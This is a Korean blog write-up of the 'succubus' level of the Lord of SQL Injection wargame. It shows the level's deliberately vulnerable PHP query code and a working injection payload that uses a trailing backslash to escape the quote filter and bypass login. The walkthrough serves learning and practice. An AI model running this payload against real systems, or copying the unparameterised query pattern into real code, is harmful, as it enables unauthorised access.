 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - succubus 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제는 `succubus`이다.  

`succubus`는 처음 듣는 이름이라 찾아봤는데, 중세 유럽의 전설이랑 민속에 나오는 악마 이름이라고 한다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------
query : select id from prob_succubus where id='' and pw=''
-----------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```

지난 번 문제랑 뭐가 다른가 했는데, `ereg()` 대신에 `preg_match()`가 사용되었다.  

이번엔 정말로 `'`를 우회해야 하는 문제인 것 같다.  

처음에는 `preg_match()` 함수에 취약점이 있지 않을까 생각했다.  

그런데 아무리 찾아도 취약점이 있다는 내용이 보이지 않았고, 아직까지 `preg_match()`에 대한 취약점이 나오지 않았다는 글이 2017년에 올라와 있었다.  

그럼 다른 방법으로 문제를 풀어야 했기 때문에 엄청 고민을 했다.  

이런저런 키워드로 검색을 했는데, 그러다가 `\`에 필터링이 없을 경우 이를 이용 해 문제를 풀 수 있다는 내용을 봤다.  

문제에서, `id`와 `pw`를 입력받고 있다.  

이 때, 만약 `id`에 `\`를 입력하고 `pw`에는 ` or 1#`를 입력하면 완성되는 쿼리는 아래와 같다.  

```
select id from prob_succubus where id='\' and pw' or 1#
```

때문에 `id`의 뒤에 있는 `'`는 `\'`가 되며 싱글 쿼터 내의 문자로 인식된다.  

즉, `id`가 `' and pw`인 행을 찾게 되는 것이다.  

물론 테이블에는 `id`가 `' and pw`인 행은 없을 것이므로, 뒤의 `or 1`이 실행되며 값을 추출할 수 있게 된다.  

따라서 아래와 같이 입력하면 문제를 풀 수 있다.  

```
?id=\&pw= or 1%23
```

문제에서는 결과로 추출 된 `id`만 있으면 되기 때문에 `or 1`을 사용했는데, 만약 `admin`인 `id`를 추출했어야 했다면 `or id=0x61646d696e%23`을 `pw`에 입력하면 문제를 풀 수 있다.  

```php
---------------------------------------------------------------------
query : select id from prob_succubus where id='\' and pw=' or 1#'
---------------------------------------------------------------------

SUCCUBUS Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```

`SUCCUBUS Clear!!`